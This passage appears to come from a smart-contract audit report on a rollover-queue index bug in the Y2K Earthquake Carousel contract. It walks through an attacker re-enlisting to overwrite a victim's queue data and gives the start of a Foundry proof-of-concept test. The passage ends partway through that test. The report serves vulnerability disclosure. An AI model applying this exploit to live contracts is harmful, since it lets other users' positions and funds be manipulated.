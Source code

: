 Now Line 268 is executed:
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L268

But since `rolloverQueue.length = 3` => 
`ownerToRollOverQueueIndex[ATTACKER] = 3`


5) attacker re-enlists again (Exploit)
```solidity
vault.enlistInRollover(_epochId, 0.1 ether, ATTACKER); // low rollover value
```
Since ATTACKER is already in the queue. the function executes:
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L253-L258


rolloverQueue[index] is now pointing to the queue data of user: VICTIM.
Any write's to this storage will overwrite VICTIMs data:

```solidity
rolloverQueue[index].assets = _assets; // overwrite
rolloverQueue[index].epochId = _epochId; // overwrite
```


## Impact
Unauthorized Data Manipulation: The miscalculation of the rollover queue index enables other users to overwrite the struct data in the queue, allowing unauthorized manipulation of users' hedge positions.
Potential Loss of Funds: The vulnerability exposes users to potential loss of funds, as malicious actors can manipulate the rollover queue to their advantage, adversely affecting other users' positions.
Compromised Contract Security and Integrity: The vulnerability undermines the security and integrity of the smart contract, eroding user confidence and potentially rendering the contract unfit for its intended purpose.


## Code Snippet

```solidity
function testAttackEnListInRollover() public {
        // create two epochs
        uint40 _epochBegin = uint40(block.timestamp + 1 days);
        uint40 _epochEnd = uint40(block.timestamp + 2 days);
        uint256 _epochId = 2;
        uint256 _emissions = 100 ether;

        deal(emissionsToken, address(vault), 100 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions(_epochId, _emissions);

        helperDepositInEpochs(_epochId, USER, false, 10 ether);
        helperDepositInEpochs(_epochId, USER2, false);
        helperDepositInEpochs(_epochId, USER3, false, 3 ether);
        helperDepositInEpochs(_epochId, USER4, false);

        vm.warp(_epochBegin - 10 minutes);

        helperDepositInEpochs(_epochId, USER, false, 10 ether);
        helperDepositInEpochs(_epochId, USER2, false);
        helperDepositInEpochs(_epochId, USER3, false, 3 ether);
        helperDepositInEpochs(_epochId, USER4, false);

        vm.prank(USER);
        vault.enlistInRollover(_epochId, 3 ether, USER);

```